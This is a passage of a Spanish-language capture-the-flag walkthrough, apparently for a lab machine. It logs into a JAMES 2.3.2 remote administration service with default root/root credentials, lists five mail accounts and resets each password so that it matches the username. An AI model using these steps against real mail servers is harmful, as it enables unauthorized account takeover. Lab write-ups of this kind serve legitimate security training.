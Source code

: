 
```bash
❯ nc 10.10.10.51 4555
JAMES Remote Administration Tool 2.3.2
Please enter your login and password
Login id:
root
Password:
root
Welcome root. HELP for a list of commands
HELP
Currently implemented commands:
help                                    display this help
listusers                               display existing accounts
countusers                              display the number of existing accounts
adduser [username] [password]           add a new user
verify [username]                       verify if specified user exist
deluser [username]                      delete existing user
setpassword [username] [password]       sets a user's password
setalias [user] [alias]                 locally forwards all email for 'user' to 'alias'
showalias [username]                    shows a user's current email alias
unsetalias [user]                       unsets an alias for 'user'
setforwarding [username] [emailaddress] forwards a user's email to another email address
showforwarding [username]               shows a user's current email forwarding
unsetforwarding [username]              removes a forward
user [repositoryname]                   change to another user repository
shutdown                                kills the current JVM (convenient when James is run as a daemon)
quit                                    close connection
```

Logramos ingresar al servicio, y podemos ver que tenemos una lista de opciones que podemos usar, entre ellas una que corresponde a listar usuario y cambiarles la contraseña.

Primero vamos a lista a todos los usuarios registrados.

```bash
listusers
Existing accounts 5
user: james
user: thomas
user: john
user: mindy
user: mailadmin
```
Ahora como no sabemos la contraseña de cada uno de estos, usaremos la opcion para modificarles la contraseña y le asignaremos a todos el mismo nombre de usuario.

```bash
setpassword james james
Password for james reset
setpassword thomas thomas
Password for thomas reset
setpassword john john
Password for john reset
setpassword mindy mindy
Password for mindy reset
setpassword mailadmin mailadmin
Password for mailadmin reset
```
